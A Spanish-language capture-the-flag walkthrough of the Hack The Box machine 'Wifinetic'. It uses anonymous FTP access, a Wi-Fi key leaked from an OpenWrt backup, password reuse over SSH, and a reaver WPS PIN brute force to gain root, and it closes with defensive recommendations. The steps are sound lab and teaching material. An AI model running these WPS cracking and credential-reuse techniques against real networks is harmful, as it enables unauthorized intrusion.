






**Sistema Operativo**: Linux

**Dificultad**: Easy

**Temas a tratar:** FTP_Anon Credentials_Leak Password_Spraying WiFi WPS Bruteforce


<p align="center">
    
</p>


**Wifinetic** es una máquina **Linux** de dificultad **fácil** que cubre las temáticas de FTP Anonymous Login, Información filtrada, reciclaje de contraseñas, **redes WiFi** y ataques a WPS. A nivel general, la máquina te enseña a enumerar interfaces de red, aprender configuración de **routers** y **ataques WiFi**, cosa que no se suele ver en máquinas de Hack The Box, esto la hace una máquina perfecta para iniciarte en conceptos básicos de hacking WiFi


-------


Haciendo un escaneo de **nmap** por TCP a todos los puertos de la máquina víctima, descubrimos que tiene abiertos los puertos 21, 22 y 53 por donde corren los servicios FTP, SSH y Dominio respectivamente.

```bash
sudo nmap -p- -sS --open --min-rate 2500 -vvv -n -Pn 10.10.11.247
```

```text
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-13 00:18 -05
Initiating SYN Stealth Scan at 00:18
Scanning 10.10.11.247 [65535 ports]
Discovered open port 53/tcp on 10.10.11.247
Discovered open port 22/tcp on 10.10.11.247
Discovered open port 21/tcp on 10.10.11.247
Completed SYN Stealth Scan at 00:19, 31.09s elapsed (65535 total ports)
Nmap scan report for 10.10.11.247
Host is up, received user-set (0.16s latency).
Scanned at 2024-04-13 00:18:35 -05 for 31s
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
53/tcp open  domain  syn-ack ttl 63

Read data files from: /usr/local/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 31.20 seconds
           Raw packets sent: 77036 (3.390MB) | Rcvd: 76652 (3.066MB)
```

Teniendo estos servicios detectados empezamos la etapa de enumeración hacia estos con nmap, haciendo detección de **versiones** para estos servicios y corriendo los **scripts básicos** de nmap.

```bash
nmap -sCV -T4 -p21,22,53 10.10.11.247
```

```text
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-13 00:24 -05
Nmap scan report for 10.10.11.247
Host is up (0.23s latency).

PORT   STATE SERVICE    VERSION
21/tcp open  ftp        vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.74
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp          4434 Jul 31  2023 MigrateOpenWrt.txt
| -rw-r--r--    1 ftp      ftp       2501210 Jul 31  2023 ProjectGreatMigration.pdf
| -rw-r--r--    1 ftp      ftp         60857 Jul 31  2023 ProjectOpenWRT.pdf
| -rw-r--r--    1 ftp      ftp         40960 Sep 11  2023 backup-OpenWrt-2023-07-26.tar
|_-rw-r--r--    1 ftp      ftp         52946 Jul 31  2023 employees_wellness.pdf
22/tcp open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
53/tcp open  tcpwrapped
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.91 seconds
```


Como información relevante a primera vista tenemos el resultado que nos da el script de nmap 'ftp-anon' el cual nos dice que el **FTP Anonymous login** está habilitado, lo que significa que no necesitamos autenticación para acceder al contenido de esta carpeta compartida. Como sabemos, FTP es el protocolo de transferencia de archivos, y si se comparte información sensible en una carpeta con Anonymous Login puede ser una entrada fácil para un atacante. Teniendo esto en cuenta, vamos a acceder a al FTP con la cuenta de Anonymous:


```bash
ftp Anonymous@10.10.11.247
Connected to 10.10.11.247.
220 (vsFTPd 3.0.3)
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp          4434 Jul 31  2023 MigrateOpenWrt.txt
-rw-r--r--    1 ftp      ftp       2501210 Jul 31  2023 ProjectGreatMigration.pdf
-rw-r--r--    1 ftp      ftp         60857 Jul 31  2023 ProjectOpenWRT.pdf
-rw-r--r--    1 ftp      ftp         40960 Sep 11  2023 backup-OpenWrt-2023-07-26.tar
-rw-r--r--    1 ftp      ftp         52946 Jul 31  2023 employees_wellness.pdf
226 Directory send OK.
ftp> mget *
```

Listamos el contenido del FTP y lo traemos a nuestro equipo con '**mget \***' y así ser analizado posteriormete.

Del **employees_wellness.pdf** solo podemos sacar que la empresa Wifinetic está organizando un nuevo programa para empleados, en la info está el remitente que puede ser un posible usuario para enumerar, e intuimos que es una empresa relacionada con redes WiFi por el nombre.

<p align="center">
    
</p>


En **MigrateOpenWrt.txt** dice que la empresa quiere cambiar el firmware **OpenWrt** por **Debian** haciendo énfasis en actividades de monitoreo de red, y mencionan que se use la herramienta **Reaver** para testeos en la seguridad de la red. OpenWrt es un firmware empleado comúnmente en routers y Reaver una herramienta para realizar ataques a redes WiFi y testear la seguridad de estas.

```text
|  +-----------------------------------------------+    |
|  |           Migrate Configurations             |    |
|  +-----------------------------------------------+    |
|  |                                               |    |
|  |   - Adapt OpenWRT configurations to Debian    |    |
|  |   - Migrate custom settings and scripts       |    |
|  |   - Ensure compatibility with new system      |    |
|  |                                               |    |
|  +-----------------------------------------------+    |
|                                                       |
|  +-----------------------------------------------+    |
|  |          Test and Troubleshoot               |    |
|  +-----------------------------------------------+    |
|  |                                               |    |
|  |   - Test Wifi connectivity and performance    |    |
|  |   - Verify all services are functioning       |    |
|  |   - Address and resolve any issues            |    |
|  |   - Test for security issues with Reaver tool |    |
|  |                                               |    |
|  +-----------------------------------------------+    |
|                                                       |
```


**ProjectGreatMigration.pdf** es simplemente una plantilla para una presentacion, el título probablemente refiriéndose a la migración de OpenWrt a Debian.

<p align="center">
    
</p>


**ProjectOpenWrt.pdf** presenta la propuesta de migración de OpenWrt a Debian, pero no presenta información relevante para nosotros más que otro posible usuario a enumerar.

<p align="center">
    
</p>


Y por último, la parte más interesante dentro del FTP, un comprimido .tar con un **backup** de la carpeta '**etc**', recordemos que en un linux es en la carpeta 'etc' donde se guardan los **archivos de configuración** del sistema. Enumerando esta carpeta encontramos archivos típicos de configuración de un linux como el passwd o el hosts, además de varios archivos de configuración de red como los que usaría un router, lo cual reafirma nuestra teoría de que nos encontramos frente a un router. Pero lo más importante en esta carpeta son 2 cosas, primero el **/etc/passwd** con el cual podemos ver usuarios dentro del sistema:

```
root:x:0:0:root:/root:/bin/ash
daemon:*:1:1:daemon:/var:/bin/false
ftp:*:55:55:ftp:/home/ftp:/bin/false
network:*:101:101:network:/var:/bin/false
nobody:*:65534:65534:nobody:/var:/bin/false
ntp:x:123:123:ntp:/var/run/ntp:/bin/false
dnsmasq:x:453:453:dnsmasq:/var/run/dnsmasq:/bin/false
logd:x:514:514:logd:/var/run/logd:/bin/false
ubus:x:81:81:ubus:/var/run/ubus:/bin/false
netadmin:x:999:999::/home/netadmin:/bin/false
```

Tenemos como usuarios del sistema con los que podemos intentar autenticarnos a **root** que es el administrador del sistema en un linux, y a **netadmin** que por su id cercano a 1000, y que cuenta con su propio directorio home, podemos deducir que es un usuario propio del sistema y no uno de configuración del sistema. El otro archivo interesante es el '**wireless**' donde se puede observar una configuración en las interfaces de red, dentro de este vemos que se **filtra la contraseña** de un punto de acceso (sabemos que es punto de acceso por el modo 'ap'), VeRyUniUqWiFIPasswrd1!

```text
config wifi-device 'radio0'
	option type 'mac80211'
	option path 'virtual/mac80211_hwsim/hwsim0'
	option cell_density '0'
	option channel 'auto'
	option band '2g'
	option txpower '20'

config wifi-device 'radio1'
	option type 'mac80211'
	option path 'virtual/mac80211_hwsim/hwsim1'
	option channel '36'
	option band '5g'
	option htmode 'HE80'
	option cell_density '0'

config wifi-iface 'wifinet0'
	option device 'radio0'
	option mode 'ap'
	option ssid 'OpenWrt'
	option encryption 'psk'
	option key 'VeRyUniUqWiFIPasswrd1!'
	option wps_pushbutton '1'

config wifi-iface 'wifinet1'
	option device 'radio1'
	option mode 'sta'
	option network 'wwan'
	option ssid 'OpenWrt'
	option encryption 'psk'
	option key 'VeRyUniUqWiFIPasswrd1!'
```

Con esta contraseña podemos probar si se están reutilizando credenciales dentro del sistema (**Password Spraying**) probando autenticarnos por SSH con los usuarios obtenidos hasta ahora, primero con los del /etc/passwd. Con root no tenemos éxito pero con netadmin **logramos autenticarnos**, por lo que si se reutilizaron las credenciales del punto de acceso, ahora sanitizamos el SSH para poder limpiar pantalla y ver la consola con colores (lo último es meramente estético).
<pre 
  class="command-line" 
  data-prompt="netadmin@wifinetic:~$" 
  data-output="4"
><code class="language-bash">export TERM=xterm-256color
source /etc/skel/.bashrc</code>
</pre>


El siguiente paso es enumerar dentro del sistema para encontrar una via de **escalada de privilegios**. Para esto, dado a que la máquina va enfocada a WiFI y nos ha dado un montón de info sobre la estructura de red y funcionalidad de la máquina encaminaremos nuestra enumeración hacia el lado de redes WiFi, primero listaremos nuestras interfaces de red con **ifconfig**

<pre 
  class="command-line" 
  data-prompt="netadmin@wifinetic:~$" 
  data-output="4"
><code class="language-bash">ifconfig</code>
</pre>


```text
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.11.247  netmask 255.255.254.0  broadcast 10.10.11.255
        inet6 dead:beef::250:56ff:feb9:382d  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:382d  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:38:2d  txqueuelen 1000  (Ethernet)
        RX packets 83893  bytes 5304593 (5.3 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 78427  bytes 6980079 (6.9 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 33230  bytes 1994608 (1.9 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 33230  bytes 1994608 (1.9 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

mon0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        unspec 02-00-00-00-02-00-30-3A-00-00-00-00-00-00-00-00  txqueuelen 1000  (UNSPEC)
        RX packets 142106  bytes 25018760 (25.0 MB)
        RX errors 0  dropped 142106  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

wlan0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.1  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::ff:fe00:0  prefixlen 64  scopeid 0x20<link>
        ether 02:00:00:00:00:00  txqueuelen 1000  (Ethernet)
        RX packets 4749  bytes 447250 (447.2 KB)
        RX errors 0  dropped 651  overruns 0  frame 0
        TX packets 5492  bytes 636319 (636.3 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

wlan1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.23  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::ff:fe00:100  prefixlen 64  scopeid 0x20<link>
        ether 02:00:00:00:01:00  txqueuelen 1000  (Ethernet)
        RX packets 1385  bytes 192373 (192.3 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 4749  bytes 532732 (532.7 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

wlan2: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
        ether 02:00:00:00:02:00  txqueuelen 1000  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Aparte de las interfaces eth0 y loopback que son las de la red de la VPN y la de los procesos locales de red respectivamente, tenemos la **mon0** que por el nombre intuimos que es para monitoreo, y 3 más, **wlan0**, **wlan1** y **wlan2**, la última que por la información que suelta el comando parece estar inactiva. Dentro de nuestra enumeración si listamos procesos en ejecución con '**ps -faux**' veremos un par de procesos interesantes:

<pre 
  class="command-line" 
  data-prompt="netadmin@wifinetic:~$" 
  data-output="4"
><code class="language-bash">ps -faux</code>
</pre>

<p align="center">
    
</p>


El primer proceso ejecuta '**hostapd**' el cual básicamente es un demonio para establecer puntos de acceso, y con el segundo del '**wpa_supplicant**' podemos ver que la interfaz cliente de la que se abre el punto de acceso es la wlan1. Vamos a validar esta información extraida y seguir obteniendo información sobre las interfaces de red para ver como está mapeado este sistema de red WiFi, para esto usaremos '**iwconfig**' y obtendremos el siguiente output:

<pre 
  class="command-line" 
  data-prompt="netadmin@wifinetic:~$" 
  data-output="4"
><code class="language-bash">iwconfig</code>
</pre>

<p align="center">
    
</p>


Analizando la información obtenida en cada interfaz, para la **wlan0** valida que sea un punto de acceso por el modo Master, la **mon0** es en efecto una interfaz para monitorear la red por estar en modo monitor, la **wlan2** a pesar de estar en modo Managed no parece soltar información adicional por lo que sigue pareciendo inactiva, y por último la **wlan1** con ESSID de OpenWrt, ESSID (Extended Service Set Identifier) siendo un identificador de red inalámbrica que se utiliza para identificar una red inalámbrica que incluye puntos de acceso, esta se encuentra en modo Managed, por lo que confirmamos que la interfaz wlan1 es la utilizada como cliente WiFi y de la que se levanta el punto de acceso, y podemos saber que la interfaz wlan0 es ese punto de acceso debido al BSSID que reporta como punto de acceso, el cual vimos vinculado a la interfaz wlan0, por último utilicemos el comando '**iw dev**':

<pre 
  class="command-line" 
  data-prompt="netadmin@wifinetic:~$" 
  data-output="4"
><code class="language-bash">iw dev</code>
</pre>

<p align="center">
    
</p>


Espero que con este comando se vea más clara como se estructuran las interfaces de red del dispositivo, esto solo confirma lo que ya habíamos planteado con la enumeración de antes, y como extra podemos decir que la interfaz mon0 la abre la wlan0 y por eso se encuentra inactiva.
Con esta información podríamos intentar hacer un ataque de **fuerza bruta al WPS** del punto de acceso, pero antes vamos a ver si contamos con herramientas dentro del sistema con permisos de red para poder aprovechar, para esto listaremos capabilities con '**getcap**'.

<pre 
  class="command-line" 
  data-prompt="netadmin@wifinetic:~$" 
  data-output="4"
><code class="language-bash">getcap -r / 2>/dev/null</code>
</pre>
```bash
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/reaver = cap_net_raw+ep
```

¡Y bingo! La herramienta **reaver**, de la que ya habíamos oido antes que se usaba para testear la seguridad de la red, tiene permisos a nivel de red, ahora intentemos hacer el ataque de fuerza bruta a WPS, para esto basta con ver con '**--help**' las instrucciones de uso de la herramienta, en el ejemplo se ve que necesitamos una interfaz en modo **monitor** (ya contamos con una) y el **BSSID** de la interfaz de red a monitorear (La tenemos de los comandos de enumeración de antes), ahora pongámoslo a prueba.

<pre 
  class="command-line" 
  data-prompt="netadmin@wifinetic:~$" 
  data-output="4"
><code class="language-bash">reaver -i mon0 -b 02:00:00:00:00:00 -vv</code>
</pre>

Que en su ataque de fuerza bruta eventualmente nos dará el pin WPS junto con la clave:

```text
[+] Trying pin "12345670"
[+] Sending authentication request
[+] Sending association request
[+] Associated with 02:00:00:00:00:00 (ESSID: OpenWrt)
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[+] Received M1 message
[+] Sending M2 message
[+] Received M3 message
[+] Sending M4 message
[+] Received M5 message
[+] Sending M6 message
[+] Received M7 message
[+] Sending WSC NACK
[+] Sending WSC NACK
[+] Pin cracked in 12 seconds
[+] WPS PIN: '12345670'
[+] WPA PSK: 'WhatIsRealAnDWhAtIsNot51121!'
[+] AP SSID: 'OpenWrt'
[+] Nothing done, nothing to save.
```


Ya con la clave (WPA PSK) pondremos a prueba si otra vez se reutilizan credenciales (**Password Spraying**), primero intentaremos con el usuario root.
<pre 
  class="command-line" 
  data-prompt="netadmin@wifinetic:~$" 
  data-output="4"
><code class="language-bash">su -</code>
</pre>

Ingresamos la clave y **PWNED!!!!** Hemos acabado la máquina.


-----------

### Medidas de seguridad:

* Es un error común dejar una carpeta compartida FTP con un **Anonymous Login**, pero esto es una jugada inocente de los miembros de la empresa pensando que esto no será público, sin embargo para un atacante es fácil detectar esto, y en caso de que haya **información sensible**, pueda aprovecharse.
* **Reutilizar contraseñas** es una mala práctica debido a que si se llega a filtrar una, un atacante puede acceder a todo. Imagina confiar en sitios seguros para almacenar tu contraseña pero luego ingresar la misma contraseña en un servicio no muy fiable con mala seguridad, con esta misma pueden llegar a vulnerar todo tu contenido protegido. Recomendado usar segundo factor de autenticación y gestor de contraseñas.
* Evitar el uso de **WPS** para redes WiFi, al ser una utilidad vulnerable a este y otro tipo de ataques (Comparable a la seguridad de los antiguos hashes de windows, LM hashes). En caso de ser utilizado, **configurarlo con especial cuidado**.